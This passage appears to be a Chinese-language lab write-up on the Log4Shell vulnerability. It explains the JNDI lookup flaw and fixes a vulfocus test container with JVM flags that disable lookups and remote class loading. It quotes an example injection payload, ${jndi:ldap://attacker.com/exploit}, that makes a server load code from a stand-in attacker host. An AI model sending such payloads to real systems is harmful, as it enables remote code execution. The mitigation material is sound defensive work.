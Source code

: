 攻击者在用户输入（如 URL、Header、Body、参数等）中注入恶意的 JNDI 语句，例如：

```java
${jndi:ldap://attacker.com/exploit}
```

Log4j 在处理日志时会对 `${}` 进行解析，当 Log4j 解析类似 `${jndi:ldap://...}` 的字符串时，JNDI 通过 `InitialContext.lookup()` 加载对象：

```java
InitialContext ctx = new InitialContext();
Object obj = ctx.lookup("ldap://attacker.com/exploit");
```

➡️ 如果远程服务器返回了一个恶意的 Java 类，Java 将会直接加载和执行它，导致 RCE。

2.所以我们选择修复方式：通过**增加参数配置**

 ✔️ 禁用 `JNDI` 查找功能
 ✔️ 完全禁用 JNDI 加载
 ✔️ 禁用 `RMI` 和 `LDAP` 加载远程类
 ✔️ 禁用 DNS 缓存，防止基于 DNS 的利用
 ✔️ 在配置文件中明确禁用 JNDI 相关组件

在2.10以上版本的log4j中，提供了配置属性，这些配置可以配置在系统环境变量、JVM启动参数、log4j配置文件中，任意一个地方配置均可生效。

- 停止并删除原容器：

  ```bash
  docker stop romantic_ardinghelli
  docker rm romantic_ardinghelli
  ```

- 添加参数配置启动容器

  ```bash
  docker run -d --name log4shell \
  -p 22220:8080 \
  vulfocus/log4j2-rce-2021-12-09:1 \
  java -Dlog4j2.formatMsgNoLookups=true \
  -Dcom.sun.jndi.rmi.object.trustURLCodebase=false \
  -Dcom.sun.jndi.ldap.object.trustURLCodebase=false \
  -Dsun.net.inetaddr.ttl=0 \
  -Dsun.net.inetaddr.negative.ttl=0 \
  -jar /demo/demo.jar
  ```

- 与之前搭建好的waf搭配使用

- 进行漏洞利用

  常规利用失败：
